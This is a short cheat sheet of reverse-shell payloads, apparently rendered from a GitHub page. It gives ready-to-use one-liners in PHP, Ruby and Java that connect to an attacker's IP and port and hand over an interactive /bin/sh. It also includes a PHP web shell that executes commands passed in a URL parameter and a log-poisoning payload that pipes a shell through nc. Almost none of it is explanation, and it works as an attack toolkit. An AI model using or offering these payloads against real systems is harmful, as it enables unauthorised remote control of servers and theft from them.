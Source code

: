 ## PHP

You can also replace `exec` with `shell_exec`  or `system` or `passthru`
```php
php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

php\` version to \` escape the string drop to system level
```php
php -r '$sock=fsockopen("10.10.10.10",9001);`sh <&3 >&3 2>&3`;'
```

PHP cmd
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


## Log Poisoning PHP

```php
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f') ?>
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("$IP",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$IP/$PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
